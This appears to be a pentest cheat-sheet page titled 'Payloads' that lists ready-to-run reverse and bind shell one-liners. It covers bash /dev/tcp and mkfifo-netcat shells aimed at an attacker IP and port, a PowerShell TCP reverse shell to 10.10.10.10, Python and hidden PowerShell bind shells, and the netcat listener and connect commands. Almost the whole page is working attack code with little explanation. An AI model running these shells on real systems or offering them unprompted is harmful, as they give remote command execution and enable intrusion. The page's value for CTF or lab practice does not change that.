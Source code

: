 ```yaml
---
layout: default
title: Payloads
permalink: /payloads/
---
```


# Reverse Shell

First set up a listener on your attacking host:

```
nc -lvnp 1234
```

Firt to get your ip, you can use the `ip` utility:
```
ip addr
```
To create a reverse shell payload I can recommend this [online reverse shell generator](https://www.revshells.com/), but here are some example:

## Bash Payloads

```
echo "bash -c 'bash -i >& /dev/tcp/$attacker_ip/$attacker_port 0>&1'" > rev.sh
```
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $attacker_ip $attacker_port >/tmp/f" > rev.sh
```

## PowerShell Payload

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

# Bind Shell

Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.

## Bash Payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

## Python Payload
```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## PowerShell Payload
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

# Establish connection

```
nc 10.10.10.1 1234
```
